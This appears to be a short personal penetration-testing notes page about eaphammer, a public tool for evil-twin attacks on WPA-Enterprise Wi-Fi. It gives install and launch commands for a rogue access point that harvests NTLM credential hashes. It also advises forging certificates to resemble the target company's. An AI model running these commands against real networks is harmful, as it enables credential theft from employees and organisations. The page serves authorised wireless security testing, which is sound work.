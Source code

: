 ```yaml
---
Name: eaphammer
Platform: Linux
tags:
  - Resources
  - infosec
---
```

GitHub: https://github.com/s0lst1c3/eaphammer

------

- Allows you to attack enterprise networks and capture WPE NTLM hashes
- Evil twin but for WPE and is very useful since Radius is used we can capture NTLM hashes

To Install:

```ruby
git clone https://github.com/s0lst1c3/eaphammer.git
./kali-setup
```

To setup and launch attack:

```ruby
# generate certificates
./eaphammer --cert-wizard

# launch attack
./eaphammer -i wlan0 --channel 4 --auth wpa-eap --essid CorpWifi --creds
```

Pretty straight forward. Certificate has to be modified to be more authentic and look as close as possible to the enterprise.

Some general WPA-Enterprise Resources:

- https://pwn.no0.be/exploitation/wifi/wpa_enterprise/
- https://ppn.snovvcrash.rocks/pentest/wi-fi/wpa-wpa2/enterprise
- https://adam-toscher.medium.com/top-5-ways-i-gained-access-to-your-corporate-wireless-network-lo0tbo0ty-karma-edition-f72e7995aef2
- https://xploitlab.com/eaphammer-targeted-evil-twin-attacks-against-wpa2-enterprise-networks/
- https://www.kali.org/tools/eaphammer/